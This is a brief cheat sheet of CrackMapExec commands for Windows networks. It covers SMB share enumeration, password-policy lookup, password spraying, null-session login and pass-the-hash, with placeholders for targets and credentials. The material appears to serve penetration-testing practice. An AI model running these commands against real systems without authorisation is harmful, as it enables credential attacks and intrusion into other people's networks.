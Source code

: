 # CrackMapExec
[URL] (https://github.com/byt3bl33d3r/CrackMapExec)

## Enumerate SMB Shares
```
[Enumerated SMB Shares] $crackmapexec smb <ip address> --shares -u <username> -p <password>
[Enumerated SMB Shares (alternative)] $crackmapexec smb <ip address> --shares -u <username> -p '<password>'
```

## Enumerate Password Policy
```
[Password Policy] $crackmapexec smb --pass-pol <ipaddress>
```

## Password Spray Users
```
[Password Spray User List and Password] $crackmapexec smb <ip address> -u <users.lst> -p <password> --continue-on-success
```

## Null Session
```
crackmapexec smb <target(s)> -u '' -p ''
```

# Pass the Hash
```
crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH
crackmapexec smb <target(s)> -u username -H NTHASH
```
